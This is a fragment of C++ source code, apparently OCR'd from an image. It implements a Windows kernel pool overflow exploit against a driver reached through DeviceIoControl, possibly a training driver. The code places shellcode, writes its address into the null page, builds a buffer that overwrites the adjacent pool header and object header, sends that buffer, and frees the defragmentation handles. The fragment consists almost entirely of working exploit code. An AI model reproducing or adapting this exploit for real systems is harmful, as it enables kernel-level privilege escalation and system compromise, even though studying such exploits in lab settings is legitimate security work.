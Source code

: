 ```cpp

    memcpy(shellcode_addr, shellcode, sizeof(shellcode));

    memset((void*)0x0, '\x00', 0x100);
    memcpy((void*)0x60, (void*)&shellcode_addr, 0x4);
}

void send_payload(HANDLE hFile) {

    ULONG payload_len = 0x220;

    BYTE* input_buff = (BYTE*)VirtualAlloc(NULL,
        payload_len + 0x1,
        MEM_RESERVE | MEM_COMMIT,
        PAGE_EXECUTE_READWRITE);

    BYTE overwrite_payload[] = (
        "\x40\x00\x08\x04"  // pool header
        "\x45\x76\x65\xee"  // pool tag
        "\x00\x00\x00\x00"  // obj header quota begin
        "\x40\x00\x00\x00"
        "\x00\x00\x00\x00"
        "\x00\x00\x00\x00"  // obj header quota end
        "\x01\x00\x00\x00"  // obj header begin
        "\x01\x00\x00\x00"
        "\x00\x00\x00\x00"
        "\x00\x00\x08\x00" // 0xc converted to 0x0
        );

    memset(input_buff, '\x41', 0x1F8);
    memcpy(input_buff + 0x1F8, overwrite_payload, 0x28);

    cout << "[>] Sending buffer size of: " << dec << payload_len << "\n";

    DWORD bytes_ret = 0;

    int result = DeviceIoControl(hFile,
        IOCTL,
        input_buff,
        payload_len,
        NULL,
        0,
        &bytes_ret,
        NULL);

    if (!result) {

        cout << "[!] DeviceIoControl failed!\n";
    }
}

void free_chunks() {

    cout << "[>] Freeing defragmentation allocations...\n";
    for (int i = 0; i < defragment_handles.size(); i++) {

        BOOL freed = CloseHandle(defragment_handles[i]);
        if (freed == false) {
            //cout << "[!] Unable to free defragment allocation!\n";
            //cout << "[!] Last error: " << GetLastError() << "\n";
            //exit(1);
        }
    }
```